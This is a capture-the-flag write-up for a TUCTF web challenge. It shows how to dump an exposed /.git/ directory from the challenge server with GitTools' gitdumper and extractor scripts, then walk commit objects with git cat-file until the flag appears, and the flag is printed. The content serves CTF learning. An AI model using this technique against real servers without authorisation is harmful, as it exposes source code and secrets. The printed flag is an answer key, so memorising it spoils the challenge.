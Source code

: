 # Writeup

### Challenge available at ```http://gitgud.tuctf.com```

# Tool
Use this tool to dig for ```/.git/``` folder [GitTools](https://github.com/internetwache/GitTools)

# Solve
Use tool I recommended above to download `/.git/` folder by command
```./GitTools/Dumper/gitdumper.sh http://gitgud.tuctf.com/.git/ GitGud```

Then we extract it 
```./GitTools/Extractor/extractor.sh GitGud GitGudExtracted```

After that we cat the file `GitGud/.git/logs/refs/heads/master` and you will see 
```
2c6190537a2655121ccb9647765fa99687afec25 22f63ceab55efe05c5448676a3470b13b6545f74 Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000        commit: Added flag
```

Then do the following
```
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 22f63ceab55efe05c5448676a3470b13b6545f74
tree 61315dcca584181b2580b1cdf6e5d36f0323a752
parent 2c6190537a2655121ccb9647765fa99687afec25
author Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000
committer Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000

Added flag
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 61315dcca584181b2580b1cdf6e5d36f0323a752
100644 blob 353589fc6a0a098f208cd7b2a391ecc4b65d8b56    README.md
100644 blob 2a31291a3ab4f8f05e9a421617abaa524da0b89f    about.html
100644 blob b8665ba15c1c9c511dba4c89d82d2fe521d42b28    blog.html
100644 blob 25121cd6f15776125c846b78e6e3caef9f4717df    contact.html
100644 blob a0438b2b3f9c41b14ff02eae8ece9a4384bdcbf9    flag
100644 blob 1a348966ee0bee969c0ab166510ef08535ff13d4    gitgud.gif
100644 blob d833bbffb80d9a1d58acf76854a8d2c905926dff    index.html
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p a0438b2b3f9c41b14ff02eae8ece9a4384bdcbf9

TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}
```

# Flag 
TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}
